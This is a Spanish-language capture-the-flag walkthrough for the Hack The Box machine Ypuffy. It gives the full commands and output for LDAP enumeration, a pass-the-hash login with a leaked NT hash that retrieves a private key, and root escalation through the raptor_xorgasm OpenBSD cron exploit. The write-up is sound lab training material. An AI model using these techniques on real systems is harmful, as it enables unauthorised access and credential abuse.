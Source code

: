 A continuación se muestra la secuencia de pasos a seguir para obtener el root de este equipo, comenzando con la siguiente serie de códigos:

## Scan / Enumeración

```shell
$ nmap -A 10.10.10.107
```
Esto nos arroja el siguiente resultado: [nmap_a](nmap_a), allí notamos que hay un puerto abierto (`389 - ldap`), así que en este caso podemos proceder a su enumeración.

Para realizar la enumeración LDAP, se comienza por recolectar más información sobre el servicio, solicitando la siguiente consulta:

```shell
$ nmap -p 389 --script ldap-search 10.10.10.107 -oN nmap_ldap
```

> La respuesta fue almacenada en este archivo [nmap_ldap](nmap_ldap)

```shell
|     dn: ou=group,dc=hackthebox,dc=htb
|         ou: group
|         objectClass: top
|         objectClass: organizationalUnit
```
En las líneas que mostramos anteriormente tenemos todo lo que necesitamos, pues con esta información se puede proceder a realizar la siguiente línea de comando:

```shell
$ ldapsearch "objectclass=*" -h ypuffy.hackthebox.htb -b "ou=group,dc=hackthebox,dc=htb" -x > ldapsearch
```
> La respuesta fue almacenada en este archivo [ldapsearch](ldapsearch)

Una vez almacenada, notamos que no nos ofrece información adicional, por lo que tomamos los datos que nos interesan para analizar qué se puede hacer en este caso. Evaluando el archivo [nmap_ldap](nmap_ldap), vemos que el perfil de Alice tiene más información que el resto:

>uid: alice1978
>
>displayName: Alice
>
>dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb
>
>sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B

Con esta información es más que suficiente para intentar un ataque PTH (***Pass The Hash***). 

Para ello armamos y enviamos la siguiente línea de comandos:

> pth-smbclient --user=[`UID`] --pw-nt-hash -I [`IP`] \\\\[`Dominio`]\\[`displayName`] [`Hash - sambaNTPassword`]

```shell
$ pth-smbclient --user=alice1978 --pw-nt-hash -I 10.10.10.107 \\\\10.10.10.107\\alice 0B186E661BBDBDCF6047784DE8B9FD8B

Unable to initialize messaging context
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jul 30 22:54:20 2018
  ..                                  D        0  Tue Feb  5 11:36:47 2019
  my_private_key.ppk                  A     1460  Mon Jul 16 21:38:51 2018

		433262 blocks of size 1024. 411532 blocks available
```

¡Bingo! De esta forma nos hemos conectado y al listar el directorio vemos que hay un archivo con extensión **.PPK**, así que nos salimos del ***smbclient*** para hacer la descarga de archivo.

Es importante tener en cuenta que los archivos creados por PuTTYgen se conocen como archivos de PPK, ellos se utilizan para permitir una comunicación segura con otra parte que tenga la clave pública correspondiente. Los archivos PPK contienen información acerca de la autenticación de clave que es el motivo por el que suelen servir como marcador del equipo, y que podría permitir el reconocimiento y utilización de dichos archivos.

Para descargarlo ejecutamos el comando anterior con un extra:

```shell
$ pth-smbclient --user=alice1978 --pw-nt-hash -I 10.10.10.107 \\\\10.10.10.107\\alice 0B186E661BBDBDCF6047784DE8B9FD8B -c 'get my_private_key.ppk'

Unable to initialize messaging context
getting file \my_private_key.ppk of size 1460 as my_private_key.ppk (1.8 KiloBytes/sec) (average 1.8 KiloBytes/sec)
```

---

## Flag USER

En este momento el equipo usado para elaborar este CTF no cuenta con `PuTTY` así que vamos a instalarlo

```shell
$ sudo apt-get install -y putty
```

El siguiente paso es ejecutarlo y abrir nuestro putty:

```shell
$ putty
```

Al momento de abrir la ventana, podemos observar que en la sección de ***Connection > SSH > Auth*** es donde se cargará el archivo llamado `my_private_key.ppk`, y por su parte en la sección ***Connection > Data***, se va a colocar el nombre del usuario `alice1978` en la sección de **auto-login username**, para que en ***SESSION*** finalmente podamos colocar el IP, que en nuestro caso específico es `10.10.10.107`. Cumplido este proceso conectamos:

```shell
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

ypuffy$
```

Al ingresar, comenzamos a listar de la siguiente forma:

```shell
ypuffy$ ls -lha
total 40
drwxr-x---  3 alice1978  alice1978   512B Jul 31  2018 .
drwxr-xr-x  5 root       wheel       512B Jul 30  2018 ..
-rw-r--r--  1 alice1978  alice1978    87B Mar 24  2018 .Xdefaults
-rw-r--r--  1 alice1978  alice1978   771B Mar 24  2018 .cshrc
-rw-r--r--  1 alice1978  alice1978   101B Mar 24  2018 .cvsrc
-rw-r--r--  1 alice1978  alice1978   359B Mar 24  2018 .login
-rw-r--r--  1 alice1978  alice1978   175B Mar 24  2018 .mailrc
-rw-r--r--  1 alice1978  alice1978   215B Mar 24  2018 .profile
-r--------  1 alice1978  alice1978    33B Jul 30  2018 user.txt
drwxr-x---  2 alice1978  alice1978   512B Jul 30  2018 windir
```

Y sí, nuevamente ¡Bingo! ya tenemos `USER`, solo nos queda ejecutar de la siguiente forma:

```shell
ypuffy$ cat user.txt
```
***Hemos conseguido el flag del USER***

---

## Flag ROOT

Para informarnos sobre las restricciones, el tipo de usuario y el sistema operativo se deben ejecutar los siguientes comandos:

```shell
ypuffy$ id
uid=5000(alice1978) gid=5000(alice1978) groups=5000(alice1978)
ypuffy$ uname -a
OpenBSD ypuffy.hackthebox.htb 6.3 GENERIC#100 amd64
ypuffy$ echo $SHELL
/bin/ksh
```

Al tener la versión del sistema operativo ya se puede deducir que existe una vulnerabilidad para la escalada de privilegios, así que hay que ponerse manos a la obra:

```shell
ypuffy$ touch shell.sh
ypuffy$ chmod +x shell.sh
ypuffy$ ./shell.sh

raptor_xorgasm - xorg-x11-server LPE via OpenBSD's cron
Copyright (c) 2018 Marco Ivaldi <raptor@0xdeadbeef.info>

Be patient for a couple of minutes...

Don't forget to cleanup and run crontab -e to reload the crontab.

-rw-r--r--  1 root  wheel  4813 Feb  5 14:48 /etc/crontab
-rwsrwxrwx  1 root  wheel  7257 Feb  5 14:51 /usr/local/bin/pwned
```

>En este archivo [shell.sh](shell) tendremos una copia del contenido del script ejecutado en el servidor para lograr la escalada de privilegios

Es importante verificar nuevamente las restricciones y el tipo de usuario con el fin de saber si se ha logrado escalar privilegios:

```shell
ypuffy# id
uid=0(root) gid=0(wheel) groups=5000(alice1978)
```

¡Listo! Hemos logrado root, ¡vamos por nuestra flag!:

```shell
ypuffy# cat /root/root.txt
```

***Hemos logrado conseguir el flag del ROOT***

---

### xTrate